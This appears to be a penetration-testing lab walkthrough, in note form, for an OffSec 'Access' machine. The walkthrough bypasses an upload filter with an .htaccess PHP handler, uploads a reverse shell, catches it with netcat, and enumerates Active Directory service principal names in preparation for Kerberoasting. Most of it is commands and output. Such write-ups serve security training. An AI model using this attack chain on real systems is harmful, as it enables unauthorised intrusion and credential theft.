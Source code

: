 [http://192.168.199.187](#http://192.168.199.187)
\(BUY TICKETS\) -  can upload an image file

server does not allow php files
-  upload revshell\.x \(different format\) \[accepted by server\]

-  echo "AddType application/x\-httpd\-php \.x" \> \.htaccess 
-  upload \.htaccess file

-  upload revshell\.x 

-  nc \-nlvp 4444
-  C:\\xampp\\htdocs\\uploads\>

-  whoami
-  access\\svc\_apache

-  net user
-  Administrator            Guest                    krbtgt                   
svc\_apache               svc\_mssql

-  transfer Get\-SPN\.ps1 to victim machine to get a list of Service Principal Names on machine

-  powershell \(to switch to PS\)
-  \./Get\-SPN\.ps1

Object Name =  SERVER
DN      =       CN=SERVER,OU=Domain Controllers,DC=access,DC=offsec
Object Cat\. =  CN=Computer,CN=Schema,CN=Configuration,DC=access,DC=offsec
servicePrincipalNames
SPN\( 1 \)   =       Dfsr\-12F9A27C\-BF97\-4787\-9364\-D31B6C55EB04/SERVER\.access\.offsec
SPN\( 2 \)   =       ldap/SERVER\.access\.offsec/ForestDnsZones\.access\.offsec
SPN\( 3 \)   =       ldap/SERVER\.access\.offsec/DomainDnsZones\.access\.offsec
SPN\( 4 \)   =       DNS/SERVER\.access\.offsec
SPN\( 5 \)   =       GC/SERVER\.access\.offsec/access\.offsec
SPN\( 6 \)   =       RestrictedKrbHost/SERVER\.access\.offsec
SPN\( 7 \)   =       RestrictedKrbHost/SERVER
SPN\( 8 \)   =       RPC/20dae709\-54fe\-40ec\-8c68\-4475793b542a\.\_msdcs\.access\.offsec
SPN\( 9 \)   =       HOST/SERVER/ACCESS
SPN\( 10 \)   =       HOST/SERVER\.access\.offsec/ACCESS
SPN\( 11 \)   =       HOST/SERVER
SPN\( 12 \)   =       HOST/SERVER\.access\.offsec
SPN\( 13 \)   =       HOST/SERVER\.access\.offsec/access\.offsec
SPN\( 14 \)   =       E3514235\-4B06\-11D1\-AB04\-00C04FC2DCD2/20dae709\-54fe\-40ec\-8c68\-4475793b542a/access\.offsec
SPN\( 15 \)   =       ldap/SERVER/ACCESS
SPN\( 16 \)   =       ldap/20dae709\-54fe\-40ec\-8c68\-4475793b542a\.\_msdcs\.access\.offsec
SPN\( 17 \)   =       ldap/SERVER\.access\.offsec/ACCESS
SPN\( 18 \)   =       ldap/SERVER
SPN\( 19 \)   =       ldap/SERVER\.access\.offsec
SPN\( 20 \)   =       ldap/SERVER\.access\.offsec/access\.offsec

Object Name =  krbtgt
DN      =       CN=krbtgt,CN=Users,DC=access,DC=offsec
Object Cat\. =  CN=Person,CN=Schema,CN=Configuration,DC=access,DC=offsec
servicePrincipalNames
SPN\( 1 \)   =       kadmin/changepw

Object Name =  MSSQL
DN      =       CN=MSSQL,CN=Users,DC=access,DC=offsec
Object Cat\. =  CN=Person,CN=Schema,CN=Configuration,DC=access,DC=offsec
servicePrincipalNames
SPN\( 1 \)   =       MSSQLSvc/DC\.access\.offsec 

-  we nove know SPN of mysql object as “MSSQLSvc/DC\.access\.offsec”\. Now request ticket to get hash from ticket\.

